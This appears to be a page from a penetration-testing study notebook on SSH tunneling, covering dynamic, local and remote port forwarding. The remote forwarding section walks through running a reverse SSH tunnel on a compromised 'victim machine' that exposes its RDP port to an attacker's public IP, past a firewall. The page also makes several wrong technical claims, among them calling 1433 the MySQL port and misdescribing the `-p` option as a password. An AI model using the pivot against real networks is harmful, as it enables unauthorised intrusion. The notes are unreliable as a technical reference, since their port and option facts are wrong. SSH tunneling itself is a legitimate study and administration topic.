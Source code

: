 # 5.2 SSH Tunneling

## SSH Tunneling

![](../.gitbook/assets/image%20%2877%29.png)

* Here the,
  * delivery protocol is SSH on port 22.
  * and main communication happens on port 1433 \(default MySQL port\).

## There are three ways of SSH tunneling

1. Dynamic SSH tunneling
2. Local port forwarding using SSH tunneling
3. Remote port forwarding using SSH tunneling

## Dynamic SSH tunneling

* We need to setup a SOCKS proxy,
  * We first need a **proxy server on client side**.
  * We then need to configure the other end of the communication to accept traffic.
* We then need to either configure all application configurations manually or automatically to "tell all applications to use the client side SOCKS proxy for communication". 
* So all the requests of internet are now sent to proxy.

### Dynamic SSH tunneling using SSH

```text
ssh -D 85 user@192.168.1.1
```

* The above commands configures an SSH Tunnel
  * -D bind port. Which specifies the delivery connection port.
  * one end \(local\) of the SSH tunnel is the system where the above command is executed. the other end is 192.168.1.1 using username "user".

![SSH -D option description](../.gitbook/assets/image%20%2820%29.png)

![SSH Tunneling - Dynamic](../.gitbook/assets/image%20%2857%29.png)

* Here,
  * the delivery protocol is 22 \(SSH\)
  * and main communication protocol is 844.
* Examples of dynamic SSH tunneling are
  * Psiphon
  * Tor Browser

## SSH tunneling Local Port forwarding

* Unlike Dynamic SSH proxy server we do not have to create a client side proxy server here. Infact we do not need a proxy server. All things are done by SSH tunneling itself. 
* On our client machine we will open URL _http://127.0.0.1:8080_.
* Note that 8080 = 80. Actually by 8080 we are just asking to use http service.
* This request will be internally tunneled on port 53 by configured SSH tunnel.
* We have a similar relay server which helps as communicator.

![SSH Tunneling - Local Port forwarding](../.gitbook/assets/image%20%2844%29.png)

### Example of local port forwarding

1. Remote desktop \(using vnc for ubuntu\)

## SSH Tunneling Remote Port forwarding

* Given we RDP ports are not allowed through firewall means 3389 and 2290 are blocked at firewall level.
* And given only port 53 is allowed.
* Given that the victim machine has RDP services active and running on port 3389.
* We will use SSH port tunneling technique to talk directly to the server. We do not need relay server in this kind of exploits.

### Working

* Suppose we have got access to victim machine which is inside a protect environment. The victim machine has a private IP address, so we cannot directly access RDP of machine.
* Given that in victim machine RDP service \(3389\) is running.
* We first create a reverse SSH Tunnel for tunneling port 3389 \(RDP port\). We need to run this command on the victim machine.
  * `ssh -R 7000:127.0.0.1:3389 user@212.33.40.5 -p abcd1234`
    * `abcd1234` is the password of the attacker machine
    * `212.33.40.5` is a public IP address of the attacker machine
    * `3389` is the mail communication protocol. The service is running on victim system.
    * `7000` is the port which the attacker will use to access the tunneled RDP connection.
* Once the SSH tunnel is created, a service is automatically started on the attacker machine \(note that we specified username and password of attacker machine\). 
  * `service : 0.0.0.0:7000`
* Now to access the remote console of the victim system.
  * `rdesktop 127.0.0.1:7000`

![](../.gitbook/assets/image%20%2879%29.png)



